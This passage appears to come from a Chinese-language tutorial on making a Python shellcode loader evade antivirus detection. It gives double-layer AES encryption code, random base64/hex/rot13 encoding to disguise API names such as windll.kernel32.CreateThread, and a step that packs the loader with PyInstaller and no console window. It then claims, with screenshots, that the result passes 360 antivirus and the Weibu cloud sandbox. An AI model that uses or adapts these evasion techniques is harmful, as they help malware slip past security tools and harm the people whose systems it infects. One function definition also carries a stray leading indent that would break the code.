        pad_len = data[-1]
        return data[:-pad_len]
    elif isinstance(data, str):
        pad_len = ord(data[-1])
        return data[:-pad_len]
    else:
        raise TypeError("不支持的数据类型")
 
# TODO:双层AES加密
def aes_encrypt_double(plaintext):
    cipher1 = AES.new(key1, AES.MODE_CBC, iv1)
    enc1 = cipher1.encrypt(pad(plaintext).encode())
    enc1_padded = pad(enc1.decode('latin1')).encode('latin1')
    cipher2 = AES.new(key2, AES.MODE_CBC, iv2)
    enc2 = cipher2.encrypt(enc1_padded)

    return base64.b64encode(enc2).decode()
 
# TODO:双层AES解密
 def aes_decrypt_double(ciphertext_b64):
    enc2 = base64.b64decode(ciphertext_b64)
    cipher2 = AES.new(key2, AES.MODE_CBC, iv2)
    dec1_padded = cipher2.decrypt(enc2)
    dec1 = unpad(dec1_padded).decode('latin1')  # 解出第一层加密内容
    cipher1 = AES.new(key1, AES.MODE_CBC, iv1)
    final = unpad(cipher1.decrypt(dec1.encode('latin1'))).decode()
    return final
```

- 2.将`windll.kernel32.CreateThread`等特征明显的内容采用随机编码

```py
def get_dynamic_encoding():
    encoding_types = ['base64', 'hex', 'rot13']
    selected_type = random.choice(encoding_types)
	# TODO:base64 编码和解码
    if selected_type == 'base64':
        return {
            'encode': lambda s: base64.b64encode(s.encode()).decode(),
            'decode': lambda s: base64.b64decode(s).decode()
        }
    # TODO:hex 编码和解码
    elif selected_type == 'hex':
        return {
            'encode': lambda s: ''.join(hex(ord(c))[2:] for c in s),
            'decode': lambda s: ''.join(chr(int(s[i:i + 2], 16)) for i in range(0, len(s), 2))
        }
    # TODO: rot13 编码和解码
    elif selected_type == 'rot13':
        return {
            'encode': lambda s: ''.join(chr((ord(c) - ord('a') + 13) % 26 + ord('a')) if 'a' <= c <= 'z'
                                        else chr((ord(c) - ord('A') + 13) % 26 + ord('A')) if 'A' <= c <= 'Z'
            else c for c in s),
            'decode': lambda s: ''.join(chr((ord(c) - ord('a') - 13) % 26 + ord('a')) if 'a' <= c <= 'z'
                                        else chr((ord(c) - ord('A') - 13) % 26 + ord('A')) if 'A' <= c <= 'Z'
            else c for c in s)
        }
    return None
```

- 3.删除注释,检查是否存在可疑的字段进行特殊编码处理,优先尝试`base64`编码
- 4.最后使用`pyinstaller -F no_killing.py –noconsole`打包

*****

### 最终效果

- 直接`360`吧



- 尝试丢入`微步云沙箱`看看





*****